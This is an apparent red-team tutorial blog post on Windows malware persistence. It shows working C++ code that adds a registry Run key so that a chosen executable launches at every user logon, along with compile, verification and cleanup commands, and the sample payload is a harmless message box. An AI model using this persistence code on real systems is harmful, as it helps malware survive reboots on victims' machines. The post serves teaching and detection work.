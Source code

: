 ```yaml
---
title:  "Malware development: persistence - part 1. Registry run keys. C++ example."
date:   2022-04-20 10:00:00 +0600
header:
  teaser: "/assets/images/51/2022-04-20_09-43.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/51/2022-04-20_09-43.png){:class="img-responsive"}    

This post starts a series of articles on windows malware persistence techniques and tricks.    

Today I'll wrote about the result of self-researching "classic" persistence trick: startup folder registry keys.    

### run keys

Adding an entry to the "run keys" in the registry will cause the app referenced to be executed when a user logs in. These apps will be executed under the context of the user and will have the account's associated permissions level.    

The following run keys are created by default on Windows Systems:    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`    
![pers](/assets/images/51/2022-04-20_18-57.png){:class="img-responsive"}    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`    
![pers](/assets/images/51/2022-04-20_18-58.png){:class="img-responsive"}    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`    
![pers](/assets/images/51/2022-04-20_18-59.png){:class="img-responsive"}    

> Please note that this suggests to another trick to anti-VM (VirtualBox)    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`    
![pers](/assets/images/51/2022-04-20_18-59_1.png){:class="img-responsive"}    

Threat actors can use these configuration locations to execute malware to maintain persistence through system reboots. Threat actors may also use masquerading to make the registry entries look as if they are associated with legitimate programs.    

### practical example

Let's go to look at a practical example. Let's say we have a *"malware"* `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Let's go to compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mwindows -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/51/2022-04-20_19-08.png){:class="img-responsive"}    

And save it to folder `Z:\\2022-04-20-malware-pers-1\`:    

![pers](/assets/images/51/2022-04-20_19-10.png){:class="img-responsive"}    

Then, let's create a script `pers.cpp` that creates registry keys that will execute our program `hack.exe` when we log into Windows:    

```cpp
/*
pers.cpp
windows low level persistense via start folder registry key
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-20-malware-pers-1\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, logic is simplest one. We just add new registry key. Registry keys can be added from the terminal to the run keys to achieve persistence, but since I love to write code, I wanted to show how to do it with some lines of code.    

### demo

Let's compile our `pers.cpp` script:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/51/2022-04-20_19-20.png){:class="img-responsive"}    

Then, first of all, check registry keys in the victim's machine:    

```powershell
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/51/2022-04-20_09-35.png){:class="img-responsive"}    

Then, run our `pers.exe` script and check again:   

```powershell
.\pers.exe
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/51/2022-04-20_09-39.png){:class="img-responsive"}    

As you can see, new key added as expected.    
So now, check everything in action. Logout and login again:    

![pers](/assets/images/51/2022-04-20_09-40.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-20_09-40_1.png){:class="img-responsive"}    

![pers](/assets/images/51/2022-04-20_09-44.png){:class="img-responsive"}    

Pwn! Everything is worked perfectly :)    

After the end of the experiment, delete the keys:    

```powershell
Remove-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "hack"
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/51/2022-04-20_09-46.png){:class="img-responsive"}    

### conclusion

Creating registry keys that will execute an malicious app during Windows logon is one of the oldest tricks in the red team playbooks. Various threat actors and known tools such as Metasploit, Powershell Empire provide this capability therefore a mature blue team specialists will be able to detect this malicious activity.

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[source code in github](https://github.com/cocomelonc/2022-04-20-malware-pers-1)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
